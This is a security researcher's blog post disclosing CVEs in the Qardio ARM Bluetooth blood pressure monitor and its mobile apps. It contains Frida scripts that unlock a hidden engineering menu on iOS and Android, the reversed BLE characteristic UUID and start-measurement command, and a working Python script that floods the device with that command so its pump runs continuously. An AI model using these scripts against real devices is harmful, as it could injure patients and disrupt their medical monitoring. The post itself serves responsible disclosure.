 ```yaml
---
layout: post
title: Reversing the Qardio ARM
---
```

![Untitled](/assets/blinko-001.png)

This is a two-part blog post disclosing the first set of CVEs *(CVE-2025-20615, CVE-2025-23421, and CVE-2025-24836)* for the Qardio ARM, a wireless blood pressure monitor. I was first interested in the device because of its hardware, which I will discuss in another blog post. 

### Part 0x1 - Exposed Credentials

The mobile application was simple. You create a username and password and login to the application to begin pairing and using the Qardio ARM device. Though you can do the same for any of their mobile app-supported devices.

I started by decrypting and pulling the IPA onto my laptop. My main goal was to see what juicy information I could find inside the compiled application. To my surprise, there was a plist file with more than one set of production-level credentials. I will leave that exercise to the reader…

After finding this plist file I incrementally logged into each set of credentials. One set exposed an interesting Menu option. I found that an engineering panel was present in the App Route. This was found in the `Qardio.AppRoutes` class and initialized the `-[Engineering init]` process that could be used to access the engineering menu. 

This menu allowed for the user to send commands to the Qardio ARM device via the mobile application. Seems like a feature that was not intended to be in a production application. Using [mrmacete’s](https://x.com/bezjaje) objc-method-observer [script](https://www.notion.so/Reversing-the-Qardio-ARM-188d977325a9804fa647fe83f5cffa85?pvs=21). I was able to trace the initialization process of this object. 

```python
(0x28149ba40)  -[EngineeringMenuItem init]
0x104842258 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!+[MenuItem menuItem]
0x10482ca40 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewDataSource items]
0x10482c6d8 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewDataSource loadItems]
0x1048a5124 /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[MenuCollectionViewController showMenu]
0x1048e27fc /private/var/containers/Bundle/Application/8E2673E8-69F9-48B3-8831-63E86B546B47/Qardio.app/Qardio!-[QardioMenuViewController viewDidAppear:]
0x1a02276c0 UIKitCore!-[UIViewController _setViewAppearState:isAnimating:]
0x1a04224e8 UIKitCore!-[UIViewController __viewDidAppear:]
0x1a0228f18 UIKitCore!-[UINavigationController viewDidAppear:]
0x1a02276c0 UIKitCore!-[UIViewController _setViewAppearState:isAnimating:]
0x1a04224e8 UIKitCore!-[UIViewController __viewDidAppear:]
0x1a0422394 UIKitCore!-[UIViewController _endAppearanceTransition:]
0x1a0421d44 UIKitCore!__48-[UIPresentationController transitionDidFinish:]_block_invoke
0x1a03a8558 UIKitCore!-[_UIAfterCACommitBlock run]
0x1a03a8494 UIKitCore!-[_UIAfterCACommitQueue flush]
0x1a03a8398 UIKitCore!_runAfterCACommitDeferredBlocks
0x1a02569a4 UIKitCore!_cleanUpAfterCAFlushAndRunDeferredBlocks
RET: <EngineeringMenuItem: 0x28149ba40>
```

In iOS the responsible class method is `+[MenuCollectionViewDataSource items]`. You can use the script to add the EngineeringMenuItem. A Qardio ARM device needs to be paired to send commands over the console.

```swift
if (ObjC.available) {
    Interceptor.attach(ObjC.classes.MenuCollectionViewDataSource["- items"].implementation, {
        onLeave(retval) {
            try {
                let items = ObjC.Object(retval);
                let mutableItems = ObjC.classes.NSMutableArray.alloc().initWithArray_(items);
                mutableItems.addObject_(ObjC.classes.EngineeringMenuItem.alloc().init());
                retval.replace(mutableItems);
            } catch (e) {
                console.log("[!] Error: " + e);
            }
        }
    });
}
```

In Android, the responsible class is `com.getqardio.android.mvp.MvpApplication` and the boolean type `c0` needs to be changed to true. It took a lot of poking and prodding in jadx-gui to find the right boolean value. You can use the following Frida script to enable the engineering console with any user.  

```swift
Java.perform(function() {
    var MvpApplication = Java.use("com.getqardio.android.mvp.MvpApplication");

    MvpApplication.c0.implementation = function() {
        console.log("[*] Overriding c0() to return TRUE");
        return true;
    };
});
```

![Untitled](/assets/qardioAndroid.png)

### Part 0x2 - Chars and CMDs

Onto reversing the unencrypted Bluetooth connection with the Qardio ARM device. This device uses a small microcontroller powered by four AAA batteries to engage a small pump and start the blood pressure measurement process. If you are interested in the general schematics of the device you can find all internal details on the FCC website. I may dump the microcontroller firmware on my GitHub at a later point for anyone interested. 

Each start measurement command is sent over a Bluetooth connection to the mobile application. The results are displayed in the application dashboard, showing the patient's corresponding values to the clinician. 

My next goal was to obtain the UUID identified for the BLE characteristic, the property assigned to the characteristic, and the value of the characteristic length. iOS uses the [CBCharacteristic](https://developer.apple.com/documentation/corebluetooth/cbcharacteristic) class to send commands over Bluetooth. So using a custom Frida script I traced the value of each and began the reversing process. Using my script I was able to observe the following output when connecting the Qardio ARM device and starting a command:

```swift
[*] Writing value to characteristic: <CBCharacteristic: 0x280e95bc0, UUID = 583CB5B3-875D-40ED-9098-C39EB0C1983D, properties = 0x18, value = (null), notifying = NO> Value: {length = 2, bytes = 0xf101} Type: 0x0
[*] Writing value to characteristic: <CBCharacteristic: 0x280e95bc0, UUID = 583CB5B3-875D-40ED-9098-C39EB0C1983D, properties = 0x18, value = (null), notifying = NO> Value: {length = 2, bytes = 0xf102} Type: 0x0
```

Based on this information:

- The UUID `583CB5B3-875D-40ED-9098-C39EB0C1983D` is the identifier for the BLE characteristic that the data is being written to.
- The value of the data written to the characteristic is of `{length = 2, bytes = 0xf101}` the data is `0xF101`.

For sanity grepping for this UUID in the compiled application binary or using Hopper we can observe the following:

```swift
❯ strings Qardio | grep -i 583CB5B3-875D-40ED-9098-C39EB0C1983D -A 10 -B 10
EnvelopeTransmissionFailureRangeStartKey
EnvelopeTransmissionFailureRangeEndKey
EnvelopeTransmissionFailureRealtimeKey
kBLEServiceBluetoothPowerChanged
powerIsOn
com.getqardio.blequeue
v32@?0@"NSString"8@"<BLEService>"16^B24
QardioARM
QardioARM 2
1810
583CB5B3-875D-40ED-9098-C39EB0C1983D
712F0003-6CE1-4447-994C-D85E078F6BF5
2A35
23810
v32@?0@"NSString"8@"NSDate"16^B24
%d%d%d
QardioCoreDeviceStateKey
/Users/########/Documents/work/qardio-ios/QardioBLE/CBPeripheral+CoreServiceRequests.m
-[CBPeripheral(CoreServiceRequests) qd_requestMissedEnvelopes:oldestEnvelope:nextEnvelope:]
CoreServiceCharacteristcs: ERROR! This is really too bad, iOS lost data, lastStored < oldestEnvelope
CoreServiceCharacteristcs: ERROR! Something has gone terribly wrong, lastStored > nextEnvelope.
```

Hooper has a direct string cross-reference in the following class `BPDService`:

```swift
___CFConstantStringClassReference, 0x7c8, a583cb5b3875d40, 0x24 ; "583CB5B3-875D-40ED-9098-C39EB0C1983D", DATA XREF=-[BPDService peripheral:didDiscoverCharacteristicsForService:error:]+612, -[BPDService peripheral:didUpdateValueForCharacteristic:error:]+2720
```

On the Android side you can see the following value in the `BleBPDataProvider` class:

```swift
    static {
        UUID fromString = UUID.fromString("00001810-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString, "fromString(\"00001810-0000-1000-8000-00805f9b34fb\")");
        j = fromString;
        UUID fromString2 = UUID.fromString("00002a35-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString2, "fromString(\"00002a35-0000-1000-8000-00805f9b34fb\")");
        k = fromString2;
        UUID fromString3 = UUID.fromString("00002a26-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString3, "fromString(\"00002a26-0000-1000-8000-00805f9b34fb\")");
        l = fromString3;
        UUID fromString4 = UUID.fromString("00002a28-0000-1000-8000-00805f9b34fb");
        ex1.i(fromString4, "fromString(\"00002a28-0000-1000-8000-00805f9b34fb\")");
        m = fromString4;
        n = UUID.fromString("583CB5B3-875D-40ED-9098-C39EB0C1983D");
        o = UUID.fromString("00001810-0000-1000-8000-00805f9b34fb");
    }
```

Next, after reversing the command's value and the proper UUID, my main task was to create an automation script and then send a `startMeasurement` command.

### Part 0x3 - Custom Scripting

Below is the custom script I wrote, which checks for the device name, connects to the UUID, and sends the write command `f101` 20000 times. This floods the device and forces it to run the motor continuously. 

[Video](https://youtu.be/y3s-3RQ-J2A) POC.

```swift
import asyncio
import logging
from bleak import BleakScanner, BleakClient

# Configure logging
logging.basicConfig(level=logging.DEBUG, format='%(asctime)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)

DEVICE_NAME = "QardioARM"
CHAR_UUID = "583cb5b3-875d-40ed-9098-c39eb0c1983d"
DATA_TO_WRITE = bytes.fromhex('f101')  # Ensure correct format

async def connect_and_write():
    logger.info("Scanning for devices...")
    devices = await BleakScanner.discover()

    device = next((dev for dev in devices if dev.name == DEVICE_NAME), None)
    if not device:
        logger.error(f"Device named {DEVICE_NAME} not found.")
        return

    async with BleakClient(device.address) as client:
        await client.connect()
        logger.info(f"Connected to {DEVICE_NAME}. Writing data to characteristic...")

        # Loop to write data 20000 times
        for i in range(20000):
            await client.write_gatt_char(CHAR_UUID, DATA_TO_WRITE, response=True)
            logger.info(f"Data written successfully {i+1} times. Waiting for device to process...")
            await asyncio.sleep(0.5)  # Delay to avoid overwhelming the device

        logger.info("Completed all write operations. Disconnecting...")

# Run the async function
asyncio.run(connect_and_write())
```

### Conclusion

Overall the disclosure timeline for these CVEs took about 5+ months. Thanks to VINCE and CISA for helping publish the details. The vendor, Qardio was ultimately unresponsive, I even tried reaching out to one of their developers over LinkedIn. They informed me the company is now bankrupt.

In the next blog post, I will discuss analyzing the static bin file from the mobile application and flashing the firmware to an ESP32-C3 dev board.
